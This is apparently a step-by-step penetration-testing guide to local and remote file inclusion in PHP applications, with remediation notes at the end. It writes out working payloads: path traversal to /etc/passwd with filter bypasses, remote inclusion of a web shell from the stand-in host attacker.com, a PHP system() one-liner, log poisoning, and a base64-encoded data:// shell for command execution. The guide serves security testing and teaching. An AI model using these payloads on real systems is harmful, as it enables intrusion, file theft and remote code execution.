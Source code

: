 # File Inclusion

[Relative Cheat Sheet](./file-inclusion-cheat.md)

## Step-by-Step Guide for Testing and Exploiting File Inclusion Vulnerabilities

### 1. Understand File Inclusion Vulnerabilities
   - **Explanation**: File inclusion vulnerabilities occur when applications include files based on user input without validation, leading to Local File Inclusion (LFI, reading local files) or Remote File Inclusion (RFI, executing remote files). LFI can leak sensitive data, while RFI can lead to RCE.
   - **Why It's Done**: Knowing LFI vs RFI helps tailor payloads for data extraction or code execution.
   - **Example**: `?file=../../etc/passwd` reads a system file, or `?file=http://attacker.com/shell.php` executes remote code.

### 2. Identify File Inclusion Parameters
   - **Explanation**: Look for URL parameters like `?file=`, `?page=`, or `?template=` that control included files, often in CMS or legacy apps.
   - **Why It's Done**: These are injection points; missing them limits testing scope.
   - **Example**: `http://example.com/index.php?page=about.php` where `page` specifies a file.

### 3. Test for Basic LFI
   - **Explanation**: Inject paths like `/etc/passwd` or `../../etc/passwd` to read sensitive files.
   - **Why It's Done**: Confirms if the application includes local files without validation.
   - **Example**: `page=../../etc/passwd` to display system user file.

### 4. Test Path Traversal Bypasses
   - **Explanation**: Use encoded (`%2e%2e%2f`), nested (`....//`), or absolute paths (`/etc/passwd`) to bypass filters stripping `../`.
   - **Why It's Done**: Many apps filter basic traversal; advanced techniques evade these.
   - **Example**: `page=....//....//etc/passwd` to bypass dot-dot-slash filters.

### 5. Test for RFI
   - **Explanation**: Inject a remote URL (e.g., `http://attacker.com/shell.php`) if `allow_url_include` is enabled.
   - **Why It's Done**: Allows direct code execution from a malicious server.
   - **Example**: Host `shell.php` with `<?php system($_GET['cmd']); ?>` and set `page=http://attacker.com/shell.php`.

### 6. Use PHP Wrappers for Advanced LFI
   - **Explanation**: Use wrappers like `php://filter/convert.base64-encode/resource=config.php` to read source code or `data://` for code execution.
   - **Why It's Done**: Bypasses restrictions on file access or enables RCE.
   - **Example**: `page=php://filter/convert.base64-encode/resource=index.php` to read PHP source.

### 7. Chain with File Upload or Log Poisoning
   - **Explanation**: Upload a malicious file (e.g., `shell.gif` with PHP code) and include it via LFI, or inject code into logs (e.g., user-agent) and include the log file.
   - **Why It's Done**: Turns LFI into RCE when direct RFI isn’t possible.
   - **Example**: Set user-agent to `<?php system($_GET['cmd']); ?>`, include `page=/var/log/apache2/access.log`.

### 8. Fuzz for Files and Paths
   - **Explanation**: Use ffuf with LFI wordlists (e.g., `/opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt`) to find readable files or configs.
   - **Why It's Done**: Automates discovery of sensitive files or directories.
   - **Example**: `ffuf -w LFI-Jhaddix.txt:FUZZ -u http://example.com/?page=FUZZ`.

### 9. Escalate to RCE
   - **Explanation**: Execute commands via included shells or wrappers (e.g., `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+`).
   - **Why It's Done**: Maximizes impact from file read to full system access.
   - **Example**: `page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+&cmd=id`.

### 10. Assess Prevention Measures
   - **Explanation**: Check for absolute paths, whitelists, or disabled `allow_url_include`.
   - **Why It's Done**: Informs remediation, like restricting file paths or disabling dangerous PHP settings.
   - **Example**: Secure app uses `include 'pages/' . basename($file)` to limit inclusions.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, provides a thorough process for testing file inclusion vulnerabilities. Test ethically within scope.